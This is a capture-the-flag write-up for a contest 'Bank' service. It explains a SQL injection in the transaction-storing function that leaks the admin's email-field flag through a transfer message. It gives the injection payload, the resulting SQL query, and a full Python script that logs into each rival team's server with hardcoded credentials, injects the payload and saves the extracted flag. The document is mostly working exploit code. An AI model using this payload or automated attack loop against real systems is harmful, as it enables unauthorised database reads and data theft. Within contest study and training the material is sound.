 Bank writeup
===========
### Vulnerability
There is SQL injection vulnerability in bank system. \
The vulnerability originates from functions in `db/utils.py`: `get_account_num`,
`get_balance`, and `store_transaction`. \
They can be spotted by diffing the source codes.

First two functions seem hard to be exploited as the arguments are user ID,
which leaves me one and only readily-feasible vulnerable function.

### Payload
The plan is to insert the flag which resides in the email field of admin into 
transfer message so that we can check the flag in transaction history.
Therefore we put the following payload in transfer message:

```
',(SELECT email FROM user_table LIMIT 1)),0,0),(1,1,1,('1
```
which results in complete SQL query:
```sql
INSERT INTO `tran_table`(`from_account`, `to_account`, `remit`, `msg`,
    `from_balance`, `to_balance`)
VALUES(%s, %s, %s, concat ('[Transfer] ', '',(SELECT email FROM user_table
            LIMIT 1)),0,0),(1,1,1,('1'), %s, %s)
```

### Full Exploit Code
The following exploit code exploits all other team's servers.
```python
# '^[A-za-z0-9\.\,_\(\)\' ]{,100}$'
import socket
import re

def recvuntil(s, data):
        p = ''
        while not p.endswith(data):
                p += s.recv(1)
        print p
        return p

ips = [None, None, "10.0.102.101", "10.0.103.101", "10.0.104.101", "10.0.105.101", "10.0.106.101"]
id_list = [None, None, "jmpark81", "jmpark81", "jjjkkk1", "jjjkim1", "jjjkkk1"]
pw_list = [None, None, "test1234", "test1234", "jjpass1", "jjpass1", "jjpass1"]

def attack(teamN):
        s = socket.socket(2, 1)
        s.connect((ips[teamN], 1588))
        recvuntil(s, "-> ")
        s.send("1\n")
        recvuntil(s, "Username -> ")
        s.send(id_list[teamN] + "\n") ##### ID
        recvuntil(s, "Password -> ")
        s.send(pw_list[teamN] + "\n") ##### PW
        recvuntil(s, "What would you like to do? -> ")
        s.send("3\n")

        recvuntil(s, "Receiver (user ID) -> ")
        s.send("admin\n")
        recvuntil(s, "Amount to transfer -> ")
        s.send("1\n")
        recvuntil(s, "Transfer message -> ")
        t = """',(SELECT email FROM user_table LIMIT 1)),0,0),(1,1,1,('1"""
        s.send(t+'\n')
        recvuntil(s, "Would you like to transfer? (Y/N) -> ")
        s.send("Y"+'\n')
        recvuntil(s, "Enter any key to return to the previous menu -> ")
        s.send('\n')

        recvuntil(s, "What would you like to do? -> ")
        s.send("2\n")
        flag = re.findall("\[Transfer\] (.{32})", recvuntil(s, "Enter any key to return to the previous menu -> "))[0]
        with open("flag_bank_team%d" % teamN, "wt") as f: f.write(flag)
        s.close()

for i in range(2,7):
        attack(i)
```
